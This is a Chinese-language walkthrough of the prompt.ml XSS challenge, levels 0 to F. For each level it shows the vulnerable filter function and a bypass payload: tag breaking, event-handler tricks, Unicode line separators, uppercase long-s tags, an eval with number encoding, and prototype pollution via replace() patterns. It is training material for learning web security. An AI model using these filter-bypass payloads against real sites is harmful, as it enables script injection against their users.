

## http://prompt.ml/0
## 0

正常闭合，直接注入  

payload:

```html
"> <script> alert(1)</script><"
```

为了正常显示“YOU WON” ，payload:

```html
"> <script> prompt(1)</script><"
```

## 1

[正则表达式基本语法](https://www.runoob.com/regexp/regexp-syntax.html)

[正则表达式修饰符](https://www.runoob.com/regexp/regexp-flags.html)

[正则表达式个人笔记](F:\$_File\web安全\Linux\正则表达式.md)

```javascript
var stripTagsRE = /<\/?[^>]+>/gi;
```

将全部`<xxxx>`这种类型的全部置为空。

那只要不输入`>`即可，想想什么标签可以用（感觉需要点击的，都不能用了，超链接不能用，需要onclick的不能用，onerror，onload应该可以正常使用）

payload:(记得输完之后打回车刷新，payload不需要最后的那个`>`)

```html
<svg onload=prompt(1)                         >
<iframe src=11 onload=prompt(1)               >

```

## 2

```javascript
input = input.replace(/[=(]/g, '');
```

将`=` `(` 置为空。

总之肯定要想办法绕过`(`

* 尝试实例化，`&#40;` 

  ```html
  <script>prompt&#40;1)</script>
  ```

  > `<script>`标签必须要闭合，否则js代码不能执行
  >
  > 只有img， input， link， hr，video，audio能自动闭合

* 但是还需要反实例化，这里需要了解[浏览器的解析机制](https://xz.aliyun.com/t/5863)

  加一个`<svg>`标签

  ```html
  <svg><script>prompt&#40;1)</script>
  ```


## 3

```js
input = input.replace(/->/g, '_');
return '<!-- ' + input + ' -->';
```

可以见到`->` 被替换成`_` ，最后输出被加上了注释，无法闭合。

尝试将`->`分开的闭合方式，如`--!>`

payload:

```
--!><script>prompt(1)</script>
```

## 4

```
http://prompt.ml%2f@localhost/hack.js
```

但是被禁用了

## 5

```javascript
input = input.replace(/>|on.+?=|focus/gi, '_');
return '<input value="' + input + '" type="text">';
```

可以看到过滤了`<`, `onclick=` , `focus`

但是可以将`onclick` 和`=`分开，换行就好

payload:

```
"onclick
="prompt(1)
```

## 6

给了提示    `formURL#formDataJSON`

当输入：`123456#{"aaa":"Matt"}`，时，返回了

```html
<form action="123456" method="post"><input name="aaa" value="Matt"></form>
<script>                                                  
    // forbid javascript: or vbscript: and data: stuff    
    if (!/script:|data:/i.test(document.forms[0].action)) 
        document.forms[0].submit();                       
    else                                                  
        document.write("Action forbidden.")               
</script> 
```

可以看到检测的是 `test(document.forms[0].action)`

所以一旦我们将input的name改成action，name的action就覆盖了document的action。

payload：

```
javascript:prompt(1)#{"action":"111"}
```

## 7

```javascript
function escape(input) {
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}    
```

* 代码审计：

    每一段用`#`分开，不能超过12个字符。而且每一段中间都用\<p>标签隔开了。

> 由于有12个字符的限制，所以用svg标签减少字数，最后的效果大概是`<svg xxxx onload=prompt(1) >`

* 闭合前面的title ：

```
"><svg 
```

* 闭合后面到下一行的title：

```
"><svg a= 
"><svg a='
"><svg a='/* // 理论上来说可以，但是这道题不行
"><svg a=" //不行
"><svg /*  //不行  然后在下一段加上 */
"><svg "   //不行
```
```bash
第1种只有一个引号（title自带的双引号），a的信息没有完全给出，不会自动闭合。
第2种方法由于后面是title自带的双引号，所以我们用单引号将后面的内容闭合（需要下一段带一个单引号），绕开双引号，a的信息没有完全给出，浏览器不会自动闭合。
第3种方法，确实可以链接下一段payload，但是下一段使用onload的时候，需要闭合上一段的单引号，为了链接下一段的prompt(1)，必须使用`/*`来将中间的内容注释掉，所以下一段的payload就是`'*/onload='/*`(char 13)，超出了字符限制。
第4种自己的`"`会和自带的引号闭合，导致a的信息完全给出之后，浏览器自动闭合。
第5种浏览器会将`/*`作为a的值，导致a存在信息，使得浏览器自动闭合。
第6种自己的双引号和自带的那个双引号直接闭合。
```
* 添加onload部分

```
"><svg a='#'onload='/*
首先需要闭合上一段的单引号，然后用单引号为下一段的链接做准备，同时为了能正常使用prompt(1)，所以中间部分的字符需要被注释掉。
```

* 添加prompt(1)部分

```
"><svg a='#'onload='/*#*/prompt(1)'
```

* 首先闭合注释，添加prompt，最后闭合单引号。

最终payload:

```
"><svg a='#'onload='/*#*/prompt(1)'
```

## 8

```javascript
function escape(input) {
    input = input.replace(/[\r\n</"]/g, '');
    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}  
```

* 代码审计：

    ​    在第2行的过滤，将这些字符`\r` `\n` `<`  `/` `"`置为空。  
    ​    而且`<script>`下面的那一串给注释掉了。
    
* 因为有注释，所以必须换行，但又不能使用`\r` `\n`
    **[Line Separator](http://codepoints.net/U+2028)** - `U+2028`  行分隔符
    **[Paragraph Separator](http://codepoints.net/U+2029)** - `U+2029`  段分隔符  
    这个用url编码之后，全部弄好了，再在burp里面进行url解码

```
%E2%80%A8prompt(1)
```

* 接下来还需要注释掉后面的`")`，否则JavaScript代码无法正常解析。
    因为过滤掉了`<`  `/` `"`，我们使用`-->`

```
%E2%80%A8prompt(1)%E2%80%A8-->
%E2%80%A9prompt(1)%E2%80%A9-->
```

* 之后使用burp进行转码

    

* 最后提交

## 9

```javascript
function escape(input) {
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    input = input.toUpperCase();
    return '<h1>' + input + '</h1>';
} 
```

* 代码审计：

    可以看到过滤了标签。

    但是有一个toUpperCase()
    
* `ſ`经过toUpperCase()之后会被转换成`s`
  
    可以产生script，svg等标签
    
    因为是要转换成大写，所以直接输入prompt会被转换，不会执行
    
    可以使用链接，但是文件名要大写
    
    payload:

```html
<ſcript src="http://localhost/hack.js"></script>
<ſcript src="http://127.0.0.1/hack.js"></script>
```
​				HACK.JS
```javascript
prompt(1)
```

## A

```js
function escape(input) {
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    input = input.replace(/'/g, '');
    return '<script>' + input + '</script> ';
}
```

* 代码审计：

    将`prompt`换成`alert`，将`'`置为空

* 先寻找`prompt`，再寻找`'`，那就可以在`prompt`中间加一个`'`

    payload:

```
pro'mpt(1)
```

## B

```javascript
function escape(input) {
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}    
```

* 代码审计

    将`[ | \ s + * / \ < > & ^ : ; = ~ ! % -`置为空

* 有点神奇

* payload --- WP
```
"(prompt(1))in"
```

* in运算符能这么用？
* 在js中,（prompt(1)instaneof"1"和（prompt(1)）in"1"是可以成功弹窗的，其中双引号里面的1可以是任何字符，这里的in或者instanceof是运算符，所以可以有这样的语法结构。

* payload ---WP2

```
"(prompt(1))instanceof"
"(prompt(1))in"
```

## C

```js
function escape(input) {
    input = encodeURIComponent(input).replace(/'/g, '');
    input = input.replace(/prompt/g, 'alert');
    return '<script>' + input + '</script> ';
}     
```

* 代码审计：

    A题的翻版，换了顺序，不能用`'`来阻隔`prompt`了。

    由于直接将input放在了`<script>`标签的里面，所以可以配合eval和加解码来绕过。

* 但是`"`被encode了，`'`又被替换了，所以不能用字符串形式的加解码。或者将字符串变换成数字。

* parseInt(string, radix)  

* NumberObject.toString(radix)

* 构造payload:
```html
<script type="text/javascript">
	var num = parseInt("prompt", 35);// 括号不能编码
	document.write(num); // 1354620604
	document.write(num.toString(35));
</script>
```
* payload:
```js
eval((1354620604).toString(35))(1)
```

## D --别人的WP

```js
 function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
     
    try {  
   //{"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return ''.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}  
```

本题需要了解一个js的proto属性

proto：每个对象都会在内部初始化这个属性，当访问对象的某个属性时，如果不存在这个属性，便会去proto里寻找这个属性。

可以在console做个实验

```bash
>test={"r":1,"__proto__":{"r":2}}
Object { r: 1 }
>test.r
1
>delete test.r
true
>test.r
2
```

根据这样的特点，我们可以初步构造payload：
`{"source":"0","__proto__":{"source":"onerror=prompt(1)"}}`
但是并不能绕过题目的过滤，于是便要利用replace的一个特性


```bash
>'11223344'.replace('2',"test")
"11test23344"
>'11223344'.replace('2',"$`test")
"1111test23344"
>'11223344'.replace('2',"$'test")
"1123344test23344"
>'11223344'.replace('2',"$&test")
"112test23344"
```

老实说这一段我参考别人的wp做了实验后还是不能很好的理解为什么replace会有这些特殊的参数用法，只能暂时先记住这些用法所构造的字符串的规律。因此针对本题就可以构造出我们的payload了

payload： 

````js
{"source":"'","__proto__":{"source":"$`onerror=prompt(1)>"}}
````

## E  --别人的WP

```js
function escape(input) {
    // I expect this one will have other solutions, so be creative :)
    // mspaint makes all file names in all-caps :(
    // too lazy to convert them back in lower case
    // sample input: prompt.jpg => PROMPT.JPG
    input = input.toUpperCase();
    // only allows images loaded from own host or data URI scheme
    input = input.replace(/\/\/|\w+:/g, 'data:');
    // miscellaneous filtering
    input = input.replace(/[\\&+%\s]|vbs/gi, '_');

    return '';
}
```

本题的输入都为大写字母，并且把//和任意字母替换成data：，看来是要构造data URI格式的payload，后面还将\&和空白字符都替换了，所以不能使用十六进制字符。

正常的data URI应该是类似下面这样的

```html
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">test<a>
```

其中base64解码出来的结果是`<script>alert("XSS")</script>`
但是本题的输入全被转换成大写的，正常的payload是无法被解析，老实说这题的官方答案都无法成功执行，看解释的大概意思我猜是火狐浏览器是可以支持大写的base64的解析，然后精心构造一个大写的base64编码，解码后恰好可以达到上面的效果，便能够成功执行，但是我实验后是失败的，我看其他人的wp也都说失败了，emmm不是很清楚具体原因是什么。

参考payload："><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=

## F

```js
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```

这个题和第7题差不多，过滤了`*`，但是字符放宽到15个，用`<!-- -->`来注释。

payload：

```
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>
```

